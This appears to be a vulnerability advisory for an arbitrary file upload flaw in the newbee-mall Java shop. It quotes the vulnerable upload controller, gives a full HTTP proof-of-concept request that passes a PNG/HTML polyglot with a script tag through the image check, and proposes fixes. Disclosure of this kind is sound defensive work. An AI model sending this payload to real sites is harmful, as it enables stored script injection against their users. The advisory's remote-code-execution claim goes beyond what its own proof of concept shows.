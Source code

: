 

## Title: [arbitary-file-upload] in [newbee-mall] <= [v1.0]

# **BUG_Author:** [intSheep,yaklang. io, IRify]

## Product Information
- **Software Link:** [link](https://github.com/newbee-ltd/newbee-mall)
- **Affected Version:** [<= v1.0]
- **BUG Author:** intSheep,yaklang. io, IRify

## Vulnerability Details
### Vulnerable Files
- `ltd/newbee/mall/controller/common/UploadController.java`

### Vulnerability Type
- Arbitrary File Upload (CWE-434)

### Root Cause
**Insufficient File Type Validation:**
   - The application relies solely on client-side file extension validation
   - No server-side MIME type verification is implemented
   - File extension can be easily manipulated by attackers


```java
// line:57 
 @PostMapping({"/upload/file"})
    @ResponseBody
    public Result upload(HttpServletRequest httpServletRequest, @RequestParam("file") MultipartFile file) throws URISyntaxException, IOException {
        String fileName = file.getOriginalFilename();
        BufferedImage bufferedImage = ImageIO.read(file.getInputStream());
        if (bufferedImage == null) {
            return ResultGenerator.genFailResult("请上传图片类型的文件");
        }
        String suffixName = fileName.substring(fileName.lastIndexOf("."));
        //生成文件名称通用方法
        SimpleDateFormat sdf = new SimpleDateFormat("yyyyMMdd_HHmmss");
        Random r = new Random();
        StringBuilder tempName = new StringBuilder();
        tempName.append(sdf.format(new Date())).append(r.nextInt(100)).append(suffixName);
        String newFileName = tempName.toString();
        File fileDirectory = new File(Constants.FILE_UPLOAD_DIC);
        //创建文件
        File destFile = new File(Constants.FILE_UPLOAD_DIC + newFileName);
        try {
            if (!fileDirectory.exists()) {
                if (!fileDirectory.mkdir()) {
                    throw new IOException("文件夹创建失败,路径为：" + fileDirectory);
                }
            }
            file.transferTo(destFile);
            Result resultSuccess = ResultGenerator.genSuccessResult();
            resultSuccess.setData(NewBeeMallUtils.getHost(new URI(httpServletRequest.getRequestURL() + "")) + "/upload/" + newFileName);
            return resultSuccess;
        } catch (IOException e) {
            e.printStackTrace();
            return ResultGenerator.genFailResult("文件上传失败");
        }
    }
```

### Impact
- Remote Code Execution (RCE) through malicious file upload, leading to complete server compromise
- Unauthorized access to sensitive data and system resources, potentially exposing user information and business data
- System integrity compromise, enabling attackers to modify files, install backdoors, and maintain persistent access


## Code Scan

this vulnerability find by [IRify](ssa.to) :
![img.png](img/arbitrary-file-upload-01.png)



## Proof of Concept

this valnerability validation by [Yakit](https://www.yaklang.io/)

1. **Attack Packet**
   
   Fill in the PoC after uploading the content as an image.
```plaintext
POST /admin/upload/file HTTP/1.1
Host: 127.0.0.1:28089
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryVhv77D8bkWJbZjNQ
Origin: http://127.0.0.1:28089
Sec-Fetch-Site: same-origin
Sec-Fetch-Dest: iframe
Upgrade-Insecure-Requests: 1
Cookie: JSESSIONID=54840FE688340342C57B5295A28B8E5D
sec-ch-ua: "Chromium";v="134", "Not:A-Brand";v="24", "Google Chrome";v="134"
Cache-Control: max-age=0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Mode: navigate
Referer: http://127.0.0.1:28089/admin/carousels
Content-Length: 404

------WebKitFormBoundaryVhv77D8bkWJbZjNQ
Content-Disposition: form-data; name="file"; filename="white.html"
Content-Type: image/png

{{unquote("\x89PNG\x0d\x0a\x1a\x0a\x00\x00\x00\x0dIHDR\x00\x00\x00\x01\x00\x00\x00\x01\x08\x02\x00\x00\x00\x90wS\xde\x00\x00\x00\x0cIDATx\x9cc\xf8\xff\xff?\x00\x05\xfe\x02\xfe\x0d\xefF\xb8\x00\x00\x00\x00IEND\xaeB`\x82")}}
<script>alert('test')</script>
------WebKitFormBoundaryVhv77D8bkWJbZjNQ--
```
   ![img.png](img/arbitrary-file-upload-02.png)
   ![img.png](img/arbitrary-file-upload-03.png)

## Suggested Repairs
1. Implement File Type Validation
   ```java
   private boolean isValidFileType(String fileName) {
       String[] allowedExtensions = {"jpg", "jpeg", "png", "gif"};
       String extension = fileName.substring(fileName.lastIndexOf(".") + 1).toLowerCase();
       return Arrays.asList(allowedExtensions).contains(extension);
   }
   ```

2. Add Content-Type Verification
   ```java
   private boolean isValidContentType(String contentType) {
       String[] allowedTypes = {"image/jpeg", "image/png", "image/gif"};
       return Arrays.asList(allowedTypes).contains(contentType);
   }
   ```

3. Security Recommendations
    - Store uploaded files outside web root directory
    - Rename files to prevent overwriting and path traversal
    - Implement file size restrictions
    - Add anti-virus scanning for uploaded files
    - Use secure random file names without preserving original extensions
    - Implement proper access controls for uploaded files
    - Set appropriate file permissions (read-only)

## Additional Information
- Refer to OWASP File Upload Security Guide
- Consider using secure file handling libraries
- Implement comprehensive logging for file upload operations
- References:
    - OWASP File Upload Cheat Sheet
    - CWE-434: Unrestricted Upload of File with Dangerous Type
    - OWASP Top 10: A5:2021 – Security Misconfiguration

The severity of this vulnerability is CRITICAL, and immediate remediation is recommended as it poses a serious threat to the system's security.

Mitigation Timeline:
- Immediate: Implement file type validation and content-type verification
- Short-term: Move storage location outside web root and implement proper naming
- Long-term: Develop comprehensive file security strategy with scanning and monitoring

This vulnerability requires immediate attention due to its potential for remote code execution and system compromise. 